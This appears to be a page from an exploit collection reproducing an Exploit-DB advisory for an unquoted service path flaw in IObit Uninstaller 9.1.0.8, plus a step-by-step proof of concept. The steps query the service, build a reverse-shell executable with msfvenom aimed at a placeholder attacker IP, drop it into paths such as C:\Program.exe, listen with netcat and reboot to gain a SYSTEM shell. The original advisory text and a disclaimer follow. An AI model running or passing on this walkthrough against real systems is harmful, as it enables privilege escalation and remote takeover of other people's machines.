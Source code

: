 ```yaml
---
description: >-
  https://awesome.hackpuntes.com/exploit-db/iobit-uninstaller-9.1.0.8-iobitunsvr-unquoted-service-path
---
```


# IObit Uninstaller 9.1.0.8 - 'IObitUnSvr' Unquoted Service Path

{% embed url="https://www.exploit-db.com/exploits/47538" %}

### FILES

{% file src="../.gitbook/assets/iobituninstaller-v9.1.0.8.zip" caption="Vulnerable software" %}

### POC

YOUTUBE

1. Install vulnerable software
2. **`Windows + R`** and type **`cmd`**
3. Execute command **`sc qc IObitUnSvr`**
4. ```text
   C:\>sc qc IObitUnSvr
   [SC] QueryServiceConfig SUCCESS
   SERVICE_NAME: IObitUnSvr
           TYPE               : 10  WIN32_OWN_PROCESS
           START_TYPE         : 2   AUTO_START
           ERROR_CONTROL      : 0   IGNORE
           BINARY_PATH_NAME   : C:\Program Files (x86)\IObit\IObit Uninstaller\IUService.exe
           LOAD_ORDER_GROUP   :
           TAG                : 0
           DISPLAY_NAME       : IObit Uninstaller Service
           DEPENDENCIES       :
           SERVICE_START_NAME : LocalSystem
   ```
5. **`BINARY_PATH_NAME`** contains spaces and isn’t enclosed within quotes
6. Make a malicious exe`msfvenom -p windows/shell_reverse_tcp LHOST=[IP-ATTACKER] LPORT=[PORT-ATTACKER] -f exe -o IObit.exe`
7. Copy a malicious exe in some path like the following
   1. **C:\Program.exe**
   2. **C:\Program Files.exe**
   3. **C:\Program Files \(x86\)\IObit\IObit.exe**
8. Listen on attacker machine **`nc -lvnp 5555`**
9. Reboot victim system
10. When the victim machine reboots, you will get a reverse shell with admin system privileges

### ORIGINAL

```text
# Title: IObit Uninstaller 9.1.0.8 - 'IObitUnSvr' Unquoted Service Path
# Author: Sainadh Jamalpur
# Date: 2019-10-22
# Vendor Homepage: https://www.iobit.com
# Software Link: https://www.iobit.com/en/advanceduninstaller.php
# Version : 9.1.0.8
# Tested on: Windows 10 64bit(EN)
# CVE : N/A

# 1. Description:
# Unquoted service paths in IObit Uninstaller v9.1.0.8 have an unquoted service path.

# PoC
===========
C:\>sc qc IObitUnSvr
[SC] QueryServiceConfig SUCCESS
SERVICE_NAME: IObitUnSvr
        TYPE               : 10  WIN32_OWN_PROCESS
        START_TYPE         : 2   AUTO_START
        ERROR_CONTROL      : 0   IGNORE
        BINARY_PATH_NAME   : C:\Program Files (x86)\IObit\IObit Uninstaller\IUService.exe
        LOAD_ORDER_GROUP   :
        TAG                : 0
        DISPLAY_NAME       : IObit Uninstaller Service
        DEPENDENCIES       :
        SERVICE_START_NAME : LocalSystem

C:\>

#Exploit:
============
A successful attempt would require the local user to be able to insert their code in the system root path undetected by the OS or other security applications where it could potentially be executed during application startup or reboot. If successful, the local user's code would execute with the elevated privileges of the application.

# Disclaimer
=============
The information contained within this advisory is supplied "as-is" with no warranties or guarantees of fitness of use or otherwise.
The author is not responsible for any misuse of the information contained herein and accepts no responsibility for any damage caused by the use or misuse of this information.
The author prohibits any malicious use of security related information or exploits by the author or elsewhere.
```

